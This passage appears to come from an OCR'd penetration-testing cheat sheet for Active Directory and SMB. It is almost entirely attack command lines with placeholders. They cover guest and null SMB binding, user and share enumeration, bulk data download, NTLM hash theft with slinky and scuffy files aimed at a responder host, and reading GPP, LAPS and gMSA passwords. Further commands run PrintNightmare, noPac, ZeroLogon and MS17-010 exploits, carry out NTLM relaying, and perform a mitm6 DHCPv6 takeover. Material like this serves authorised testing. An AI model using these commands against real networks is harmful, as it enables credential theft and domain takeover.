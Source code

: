         *   [Cross-Forest](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/trust-ticket/)
*   SMB
    *   Null / Guest Binding
        *   `nxc smb [IP] -u '' -p ''`
        *   `nxc smb [IP] -u Guest -p ''`
    *   User Enumeration
        *   `nxc smb [IP] [AUTH_STRING] --users --groups --pass-pol`
        *   `nxc smb [IP] [AUTH_STRING] --rid-brute 10000`
    *   Shares Enumeration
        *   `nxc smb [IP] [AUTH_STRING] --shares`
        *   `smbclient -N -L //[IP]`
        *   `smbclient -L //[IP] -U [USER%PASS]`
        *   Data Access
            *   Interactive Session       → `smbclient.py [AUTH_STRING]` → `help` / `shares`
            *   Recursive Download   → `nxc smb [IP] [AUTH_STRING] -M spider_plus -o DOWNLOAD_FLAG=True`
            *   Single Download          → `nxc smb [IP] [AUTH_STRING] --get-file '[FILE]' [OUT] --share "[SHARE]"`
            *   Local Mounting            → `mount -t cifs -o "username=[USER]" //[IP]/[SHARE] /mnt/[SHARE]`
        *   LLMNR
            *   [NTLM\_Theft](https://github.com/Greenwolf/ntlm_theft) → Share File Dropping
            *   `nxc smb [IP] [AUTH_STRING] -M slinky -o SERVER=[RESPONDER_IP]`
            *   `nxc smb [IP] [AUTH_STRING] -M scuffy -o SERVER=[RESPONDER_IP]`
            *   Cracking → `hashcat -m 5600`
    *   RPC Access
        *   Null / Guest Binding
            *   `rpcclient -U "%"      -N [IP]`
            *   `rpcclient -U "Guest%" -N [IP]`
        *   Enumeration
            *   `rpcclient -U '[USER]%[PASS]' [IP]`
            *   Queries
                *   `enumdomusers`   → `queryuser  [USERNAME]` 
                *   `enumdomgroups` → `querygroup [GROUP_NAME]`
                *   `querydispinfo` / `enumprinters`
                *   `querydominfo`   / `srvinfo` / `getdompwinfo`
    *   GPP / LAPS / GMSA Read
        *   `nxc smb  [IP] [AUTH_STRING] -M gpp_password`
        *   `nxc smb  [IP] [AUTH_STRING] --laps`
        *   `nxc ldap [DC_IP] [AUTH_STRING] --gmsa`
    *   DC Exploits
        *   `nxc smb [IP] [AUTH_STRING] -M printnightmare -M zerologon -M nopac -M smbghost -M ms17-010`
        *   [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675.git) → `CVE-2021-1675.py [AUTH_STRING] '\\[YOUR_SMB_IP]\[SHARE]\[SHELL.dll]'`
        *   [NoPAC](https://github.com/Ridter/noPac.git)                  → `noPac.py [AUTH_STRING] --impersonate administrator -use-ldap -dump`
        *   [ZeroLogon](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/ZeroLogon/)
        *   SMBGhost / MS17-010 / SMB Vulnerabilities
    *   NTLM Poisoning
        *   LLMNR
            *   `respond()`
            *   RFI / XXE / SSRF / [NTLM\_Theft](https://github.com/Greenwolf/ntlm_theft) / MSSQL
            *   Phishing / Client Forms  → Responder Link / Bad-PDF / [NTLM\_Thef](https://github.com/Greenwolf/ntlm_theft) Office Files
            *   Cracking                              → `hashcat -m 5600`
        *   Unsigned Relaying
            *   `respond()` → HTTP/SMB = Off
            *   `nxc smb [ALIVE_IPS] --gen-relay-list [OUT_FILE]`
            *   `MultiRelay.py -t [UNSIGNED_IP] -u ALL -d`
            *   `ntlmrelayx --no-http-server -smb2support -t [UNSIGNED_IP]`
        *   DHCPv6 Takeover
            *   `sudo mitm6 -I [NIC] -d [DOMAIN]`
            *   `ntlmrelayx.py -6 -wh fakewpad.[DOMAIN] -t ldap://[DC_IP]:[PORT]`
        *   DC Coercion
            *   `respond()`